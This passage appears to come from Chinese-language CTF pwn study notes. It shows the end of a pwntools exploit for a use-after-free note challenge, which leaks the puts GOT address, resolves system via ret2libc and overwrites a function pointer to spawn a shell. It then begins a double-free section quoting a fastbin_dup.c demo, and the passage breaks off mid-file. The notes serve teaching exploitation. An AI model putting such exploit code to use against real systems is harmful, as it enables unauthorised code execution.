 ```
    sa("Content :", content)

def deletenote(index):
    sla("Your choice :", 2)
    sla("Index :", index)

def printnote(index):
    sla("Your choice :", 3)
    sla("Index :", index)

def exit():
    sla("Your choice :", 4)

puts_plt_addr = elf.plt['puts']
puts_got_addr = elf.got['puts']
addnote(0x10, b'aaa')# 0
addnote(0x10, b'bbb')# 1
deletenote(0)
deletenote(1)
addnote(0x8, p32(0x804862B) + p32(puts_got_addr))# 2
printnote(0)
puts_true_addr = u32(p.recv(4))
print(hex(puts_true_addr))
system_true_addr, bin_sh_addr = ret2libc(puts_true_addr, 'puts', './libc-2.23.so')
print(hex(system_true_addr))
print(hex(bin_sh_addr))
deletenote(2)
addnote(0x8, p32(system_true_addr) + ';sh\x00')
printnote(0)
itr()
```

# 2.double free

## Introduction

待补充

可参考fastbin_dup.c：

```
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
```